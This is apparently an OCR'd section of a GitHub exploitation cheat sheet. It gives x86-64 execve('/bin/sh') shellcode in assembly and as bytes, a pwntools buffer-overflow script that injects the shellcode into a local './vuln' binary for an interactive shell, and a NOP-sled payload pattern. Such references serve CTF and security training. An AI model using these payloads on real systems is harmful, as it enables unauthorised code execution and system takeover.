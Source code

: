 ## 🐚 Shellcode

### x86-64 Execve Shellcode

```assembly
; execve("/bin/sh", NULL, NULL)
xor rax, rax
push rax
mov rbx, 0x68732f2f6e69622f  ; "/bin//sh" reversed
push rbx
mov rdi, rsp       ; rdi = pointer to "/bin/sh"
push rax
push rdi
mov rsi, rsp       ; rsi = argv
xor rdx, rdx       ; rdx = envp
mov al, 59         ; syscall number for execve
syscall
```

**Shellcode bytes:**
```python
shellcode = b"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
shellcode += b"\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\x48\x31\xd2\xb0\x3b\x0f\x05"
```

### Shellcode Injection

```python
from pwn import *

# Create shellcode
shellcode = asm(shellcraft.sh())

# Calculate payload
payload = shellcode
payload += b'A' * (offset - len(shellcode))
payload += p64(buffer_address)  # Jump to shellcode

p = process('./vuln')
p.sendline(payload)
p.interactive()
```

### NOP Sled

```python
# Use NOP sled for imprecise addresses
nop_sled = b'\x90' * 100
payload = nop_sled + shellcode + b'A' * padding + p64(approximate_addr)
```

### Useful Shellcodes
